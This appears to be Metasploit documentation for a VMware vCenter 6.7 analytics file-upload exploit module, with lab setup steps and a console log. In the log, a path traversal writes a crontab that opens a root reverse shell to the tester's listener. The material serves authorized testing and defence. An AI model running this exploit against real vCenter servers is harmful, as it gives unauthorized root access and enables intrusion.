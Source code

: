 ## Vulnerable Application

### Setup

Follow [VMware's official documentation] or the unorthodox steps below.

1. Download ISO
1. Extract OVA from ISO
1. Import OVA
1. Boot VM
1. Set root password in console
1. Complete setup at <https://change-this-to-your-target-host:5480/>
1. _Ensure that [CEIP is enabled]_
1. **(Optional)** Upgrade to desired patch level

Initialization may take a while before the target is exploitable.

[VMware's official documentation]: https://docs.vmware.com/en/VMware-vSphere/6.7/com.vmware.vcenter.install.doc/GUID-8DC3866D-5087-40A2-8067-1361A2AF95BD.html
[CEIP is enabled]: https://docs.vmware.com/en/VMware-vSphere/6.7/com.vmware.vsphere.vcenterhost.doc/GUID-F97CD334-CD4A-4592-B7B1-43A49CF74F39.html

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Scenarios

### VMware vCenter Server 6.7 Update 3n (Linux appliance)

```
msf6 > use exploit/linux/http/vmware_vcenter_analytics_file_upload
[*] Using configured payload cmd/unix/reverse_perl_ssl
msf6 exploit(linux/http/vmware_vcenter_analytics_file_upload) > options

Module options (exploit/linux/http/vmware_vcenter_analytics_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl_ssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf6 exploit(linux/http/vmware_vcenter_analytics_file_upload) > set rhosts 172.16.57.2
rhosts => 172.16.57.2
msf6 exploit(linux/http/vmware_vcenter_analytics_file_upload) > set lhost 172.16.57.1
lhost => 172.16.57.1
msf6 exploit(linux/http/vmware_vcenter_analytics_file_upload) > run

[*] Started reverse SSL handler on 172.16.57.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. CEIP is fully enabled.
[*] Creating path traversal
[+] Successfully created path traversal
[*] Executing cmd/unix/reverse_perl_ssl (Unix Command)
[*] Writing system crontab: /etc/cron.d/GWjzDiAN.json
[+] Successfully wrote system crontab
[!] Please wait up to 63 seconds for a session
[*] Command shell session 1 opened (172.16.57.1:4444 -> 172.16.57.2:42868) at 2021-10-06 16:23:06 -0500

id
uid=0(root) gid=0(root) groups=0(root),1000(vami),4044(shellaccess),59005(coredump)
uname -a
Linux photon-machine 4.4.250-1.ph1 #1-photon SMP Fri Jan 15 03:01:15 UTC 2021 x86_64 GNU/Linux
```
